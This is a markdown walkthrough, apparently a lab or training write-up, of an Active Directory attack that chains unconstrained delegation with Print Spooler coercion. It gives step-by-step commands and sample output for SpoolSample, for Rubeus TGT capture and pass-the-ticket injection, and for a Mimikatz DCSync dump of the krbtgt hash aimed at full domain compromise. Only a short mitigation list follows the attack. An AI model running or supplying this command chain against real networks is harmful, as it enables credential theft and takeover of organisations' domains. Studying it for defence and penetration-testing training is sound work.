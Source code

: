 # Exploiting Unconstrained Delegation with SpoolSample

## 🔍 Overview
This attack exploits **Unconstrained Delegation** in an Active Directory environment to obtain the **TGT of a Domain Controller (DC)** without requiring user interaction. The key component of this technique is the **Print Spooler service vulnerability**, which forces a DC to authenticate to an attacker-controlled machine with Unconstrained Delegation enabled.

---

## 📌 Exploiting the Print Spooler to Capture a DC TGT

### 1️⃣ **Checking if Print Spooler is Enabled on the DC**
Use PowerShell to check if the print spooler service is running on a **Domain Controller (DC)**:
```powershell
PS C:\Tools> dir \\CDC01\pipe\spoolss
```
If the output shows the `spoolss` named pipe, it confirms that the print spooler service is accessible.

---

### 2️⃣ **Using SpoolSample to Force Authentication from the DC**
The **MS-RPRN (Microsoft Print System Remote Protocol)** allows us to **coerce** authentication from a **Domain Controller** (CDC01) to a machine under our control (APPSRV01), which has **Unconstrained Delegation** enabled.

Run **SpoolSample.exe**:
```cmd
C:\Tools> SpoolSample.exe CDC01 APPSRV01
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\CDC01, CaptureServer: \\APPSRV01
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
> ⚠️ **Note:** You may need to run SpoolSample multiple times before it successfully triggers authentication.

---

### 3️⃣ **Monitoring for TGT Capture Using Rubeus**
We use **Rubeus** in monitoring mode to capture the **TGT** from the DC:
```cmd
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```
✅ If successful, **Rubeus** will display the captured **TGT** for the **Domain Controller (CDC01$)**:
```
[*] 4/13/2020 2:45:16 PM UTC - Found new TGT:
User : CDC01$@PROD.CORP1.COM
StartTime : 4/13/2020 2:26:32 AM
EndTime : 4/13/2020 12:26:32 PM
RenewTill : 4/15/2020 8:14:07 AM
Flags forwardable
Base64EncodedTicket : doIFIjCCBR6gAwIBBaEDAgEWo...
```

---

### 4️⃣ **Injecting the TGT into Memory for DC-Level Privileges**
Now that we have the **TGT of the DC**, we inject it into memory using **Rubeus**:
```cmd
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
[*] Action: Import Ticket
[+] Ticket successfully imported!
```
---

### 5️⃣ **Performing DCSync to Extract Domain Credentials**
With the **TGT of the DC**, we can use **Mimikatz** to **extract all password hashes from Active Directory**:
```cmd
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```
Sample output:
```
Hash NTLM: 4b6af2bf64714682eeef64f516a08949
```
✅ Now we have the **NTLM hash of the KRBTGT account**, meaning we can generate **Golden Tickets** and take full control of the domain.

---

## 🔥 **Relation to Unconstrained Delegation**
This attack is possible **only because of Unconstrained Delegation**. Here’s why:

- The DC **automatically forwards its TGT** when authenticating to a system with **Unconstrained Delegation**.
- By coercing the DC to authenticate using **SpoolSample**, we **capture its TGT**.
- With **Rubeus**, we **inject the TGT into memory**, allowing us to act as the **Domain Controller**.
- With **DCSync**, we extract **NTLM hashes**, leading to **complete domain compromise**.

---

## 🚀 **Conclusion**
This attack shows how dangerous **Unconstrained Delegation** is. If an attacker compromises a **single** machine with this setting enabled, they can escalate privileges to **Domain Admin** without any user interaction.

📌 **Mitigation Steps**:
- **Disable Unconstrained Delegation** for critical systems like **Domain Controllers**.
- **Disable the Print Spooler service** on **Domain Controllers** if not needed:
  ```powershell
  Stop-Service -Name Spooler -Force
  Set-Service -Name Spooler -StartupType Disabled
  ```
- **Monitor Kerberos authentication logs** for abnormal TGT requests.

---

## 🛠 **Tools Used**
- **SpoolSample**: Exploits **MS-RPRN** to force authentication from a DC.
- **Rubeus**: Captures and injects **TGTs** in memory.
- **Mimikatz**: Performs **DCSync** to dump **NTLM hashes**.


